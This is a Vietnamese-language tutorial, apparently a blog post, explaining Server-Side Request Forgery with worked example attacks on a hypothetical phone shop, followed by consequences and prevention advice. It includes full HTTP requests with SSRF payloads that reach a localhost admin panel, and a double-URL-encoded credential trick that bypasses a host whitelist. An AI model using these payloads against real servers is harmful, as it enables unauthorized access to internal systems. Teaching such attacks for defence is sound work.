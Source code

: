 # SSRF

## 1. SSRF là gì
*SSRF (Server Side Request Forgery)* hay còn gọi là tấn công yêu cầu giả mạo từ phía server cho phép kẻ tấn công thay đổi tham số được sử dụng trên trang web để tạo hoặc kiểm soát các yêu cầu từ server dễ bị tấn công.

Khi tài nguyên của trang web cần lấy nguồn tài nguyên từ resource ngoài, thì server cần phải yêu cầu sử dụng và đưa lên trang web.

![](https://images.viblo.asia/full/0b192762-6c39-4255-ad05-0e58ea99deb0.png)

Ví dụ, một URL như https://example.com/feed.php?url=example2.com/feed/ để lấy nguồn cấp dữ liệu từ xa. Nếu kẻ tấn công có thể thay đổi tham số url thành localhost, thì anh ta có thể xem các tài nguyên cục bộ được lưu trữ trên server, làm cho nó dễ bị tấn công bởi yêu cầu giả mạo từ phía server...

Nếu kẻ tấn công có thể kiểm soát đích của các yêu cầu phía server, chúng có thể thực hiện các hành động sau:

* Lạm dụng mối quan hệ tin cậy giữa server dễ bị tổn thương và những người khác.
* Bỏ qua danh sách trắng IP.
* Bỏ qua dịch vụ xác thực dựa trên server.
* Đọc tài nguyên mà công chúng không thể truy cập, chẳng hạn như trace.axd trong ASP.NET hoặc siêu dữ liệu API trong môi trường AWS.
* Quét mạng nội bộ mà server được kết nối đến.
* Đọc tệp từ server web.
* Xem trang trạng thái và tương tác với các API như server web.
* Truy xuất thông tin nhạy cảm như địa chỉ IP của server web sau proxy ngược.

Thông thường SSRF xảy ra khi một ứng dụng web đang thực hiện một yêu cầu, trong đó kẻ tấn công có toàn quyền hoặc kiểm soát một phần yêu cầu đang được gửi đi. 

![](https://images.viblo.asia/full/b0ae85ac-13ea-465d-a4a6-9e825c4c3fbd.jpg)

## 2. Một số cách thức tấn công

### 1. Tấn công máy chủ cục bộ

Giả sử có một trang web bán điện thoại mà kẻ tấn công muốn truy cập đến trang `admin`:

Attacker truy cập trực tiếp trang `admin` từ phía client

```http
GET /admin HTTP/1.1
Host: example.com
User-Agent: Agent 1
Connection: close
Upgrade-Insecure-Requests: 1
```

Sau khi truy cập trang admin từ phía client thì attacker nhận được mã `401 Unauthorized` và message thông báo `Bạn không phải là admin` nghĩa là chúng ta không thể truy cập trực tiếp được trang quản trị admin với một vai trò `user`.

```http
HTTP/1.1 401 Unauthorized
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 1940

Bạn không phải là admin
```

Tại trang web bán hàng điện thoại có chức năng xem các sản phẩm iphone có tại các cửa hàng đó hay không. Để cung cấp thông tin cho khách hàng thì server đã gọi api từ trang web khác vào để craw dữ liệu về hiển thị.

```http
POST /category/iphone HTTP/1.1
Host: example.com
User-Agent: Agent 1
Referer: https://example.com/product?productId=1
Content-Type: application/x-www-form-urlencoded
Origin: http://example.com
Content-Length: 97
Connection: close

product=http%3A%2F%2Fdata-example.com%3A8100%2F%3Fproduct%3Diphone
```

Dựa vào các thức mà ứng dụng gửi yêu cầu attacker đã thay đổi yêu cầu truy cập đến trang quản trị admin

```http
POST /category/iphone HTTP/1.1
Host: example.com
User-Agent: Agent 1
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://example.com/product?productId=1
Content-Type: application/x-www-form-urlencoded
Origin: http://example.com
Content-Length: 31
Connection: close

stockApi=http://localhost:2083/cpanel
```

Như vậy là attacker đã truy cập thành công trang admin.

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 12
...
...
...

Hello, admin
```

Việc kiểm tra kiểm soát truy cập được thực hiện ở phía front-end mà không phải phía server.

Ứng dụng cho phép truy cập trang quản trị mà không cần đăng nhập, có thể truy cập đối với bất kỳ người dùng nào từ phía local.

## 2. Tấn công SSRF với while list input filters

Thường một số ứng dụng chỉ cho phép một số đầu vào mà của người dùng như bắt đầu bằng, matches,... với while list mà họ đã định ra. Đôi khi chúng ta có thể khai thác sự không đồng nhất trong việc phân tích URL.

Đây là cấu trúc một URL dựa vào đó mà ta có thể khai thác cách phần tích URL của một server:

scheme://user:pass@host:port/path?query=value#fragment

* Thêm thông tin đăng nhập vào URL trước hostname
* Sử dụng `#` để chỉ ra nội dung của mục con.
`URLEncode`
* Có thể sử dụng kết hợp tất cả các trên tùy vào mỗi ứng dụng mà họ filters khác nhau.

Vẫn giống ví dụ trước cũng là một trang bán điện thoại có chức năng xem các sản phẩm có ở đó hay không, nhưng lần này ứng dụng đã kiểm tra kỹ hơn đầu vào mà người dùng nhập vào.

Trong trường hợp này attacker cũng đổi host nhưng đã bị chặn lại bởi ứng dụng web chỉ chấp thuận host data-example.com.

Khi không thay đổi được `host` attacker thử thêm `username` vào URL thì nhận được response `Internal Server Error` điều này khiến cho attacker nghi ngờ rằng chúng đang cố gắng kết nối đến server là `username`.

```http
POST /category/iphone HTTP/1.1
Host: example.com
User-Agent: Agent 1
Referer: http://example.com/category
Content-Type: application/x-www-form-urlencoded
Origin: http://example.com
Content-Length: 47
Connection: close

stockApi=http://username@data-example.com
```

```http
HTTP/1.1 500 Internal Server Error
Connection: close
```

khi attacker Double-URL encode và nhận được response 200 OK thì một trong những kết quả tồi tệ nhất của một trang web khi bị attack cũng đã xuất hiện

```http
POST /category/iphone HTTP/1.1
Host: example.com
User-Agent: Agent
Referer: http://example.com/category
Content-Type: application/x-www-form-urlencoded
Origin: https://example.com
Content-Length: 53
Connection: close

stockApi=http://localhost%2523@data-example.com
```

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 107
...
...

Hi, admin
```

Những nguyên nhân xảy ra:

* Do việc xử lí URL không được đồng nhất.
* Không kiểm soát hết được input mà người dùng hay attacker truyền vào.

Ngoài ra còn một số kiểu tấn công khác tùy thuộc vào mỗi ứng dụng web đó xử lý input mà người dùng nhập vào.

# 3. Hậu quả 

Một cuộc tấn công SSRF thành công có thể dẫn đến cách hành động truy cập dữ liệu trái phép trong một tổ chức, trong chính ứng dụng đó hoặc trong các hệ thống back-end khác mà ứng dụng đó có thể giao tiếp. 

Trong một số trường hợp SSRF có thể dẫn đến attacker có thể thực hiện `command execution`.

# 4. Các ngăn chặn và phòng ngừa

Để ngăn ngừa các lỗ hổng SSRF trong ứng dụng web ta nên sử dụng các `while list` các `domain` và `protocols` được phép truy cập tài nguyên từ phía máy chủ.

Nên tránh sử dụng các chức năng mà người dùng trực tiếp yêu cầu tài nguyên thay cho máy chủ. 

Ngoài ra cũng nên filter user input, trong trường hợp này nó rất khó để thực hiện bởi vì không thể nắm hết được những input mà người dùng nhập vào.

# 5. Tham khảo

* https://portswigger.net/web-security/ssrf

* https://viblo.asia/p/server-side-request-forgery-ssrf-RQqKL9D6Z7z

* https://owasp.org/www-community/attacks/Server_Side_Request_Forgery

* https://www.acunetix.com/blog/articles/server-side-request-forgery-vulnerability/